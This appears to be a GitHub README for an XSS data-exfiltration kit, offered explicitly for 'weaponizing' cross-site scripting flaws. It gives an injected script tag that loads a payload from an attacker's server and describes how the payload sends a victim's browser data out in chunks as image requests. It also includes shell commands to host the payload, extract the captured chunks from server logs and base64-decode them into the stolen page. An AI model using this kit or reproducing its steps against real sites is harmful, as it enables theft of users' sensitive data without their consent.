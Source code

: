 # XSS-Data-Exfil-Kit
XSS Data Exfiltration Tool

Used in weaponizing XSS vulnerbilities 

This code demonstrates data exfiltration through an XSS (Cross-Site Scripting) vulnerability. The XSS payload is designed to extract sensitive data from the victim's web browser and divide it into manageable chunks. These chunks are then sent out as image requests, with the data embedded in the image filenames. The process also includes example commands and a Python script for reconstructing the original data.

For a detailed walkthrough with screenshots, please refer to our blog post at this link: Simple Data Exfiltration Through XSS.

To make the payload target specific sensitive data accessible to the victim, you can customize the "exfilPayload.js" file.

Here are the steps involved:

<script src="http://127.0.0.1/exfilPayload.js"></script>

Start a Python HTTP server in the directory where "exfilPayload.js" is located:

bash
python -m SimpleHTTPServer 80

"exfilPayload.js" will send the data chunks to the same server.

Collect these requests into a text file and clean them up:

bash
grep '/exfil/' exfilledData.txt | awk -F'/exfil/' '{print $2}' | awk -F'/' '{print $1 " " $2}' | awk -F'.jpg' '{print $1}' | while read i; do echo $i ; done > exfilledDataCleaned.txt


Use the provided Python script to reconstruct the original data.

Finally, assemble the data chunks together using:

bash    
for file in ./{0..225}.chunk; do cat $file | base64 -d; done > restoredSuperSecretData.html

                                        


                                               
